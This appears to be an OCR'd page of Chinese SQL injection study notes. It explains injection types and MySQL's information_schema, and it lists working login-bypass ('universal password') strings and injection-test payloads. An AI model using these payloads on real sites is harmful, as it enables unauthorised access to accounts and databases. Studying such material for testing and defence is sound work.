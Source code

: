 ```linux
    测试方法为：http://host//login.php  post参数为：name=' or ''='' --&pass=
    接收参数为：name='' or ''='' -- pass =''
    sql语句为：SELECT * FROM admin WHER name='' or ''='' --' AND pass =''

五种不同的注入模式：
1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2、基于时间的盲注，用条件语句查看时间延迟语句是否执行来判断。
3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4、联合查询注入，可以使用union的情况下的注入。
5、堆查询注入，用;结束当前语句,在后面执行自己的语句，可以同时执行多条语句的执行时的注入。
6、内联查询注入，在查询语句中嵌套sql语句
```

可以注入的数据库

```linux
MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB等，所有存储数据的数据库都有可能存在注入。
```

## 数据库元数据表

```linux
information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。

元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

也就是说information_schma可以查到你的所有的搭建的数据库名、表名和列的数据类型，在一切条件未知的情况下，存在注入点的话我们可以直接尝试对information_schema进行访问，从而获得更多的信息。

SCHEMATA:提供了当前MySQL实例中所有数据库的信息
TABLES:所有数据库表的信息
CONLUMNS：提供了列信息
```

## 绕过验证(常见的为管理登陆)也称万能密码

```linux
(1) 用户名输入： 'or 1=1 or'  密码：任意
(2) Admin' -- (或'or 1=1 or' --)(admin or 1=1 --) (MSSQL)(直接输入用户名，不进行密码验证)
(3) 用户名输入：admin   密码输入：' or '1'='1  也可以
(4) 用户名输入：admin' or 'a'='a    密码输入：任意
(5) 用户名输入：' or 1=1 --
(6) 用户名输入：admin' or 1=1 --  密码输入：任意
(7) 用户名输入：1'or'1'='1'or'1'='1   密码输入：任意
```

## 测试注入点的语句

```linux
# 基础判断注入语句
||0--+
||1--+
&& true--+
&& false--+
and 1=1--+
and 1=2--+
and 2>1--+
and 2>3--+
and '1'='1
and '1'='2
and "1"="1"--+
and "1"="2"--+
and '1'='2' )
and ("x"="x
```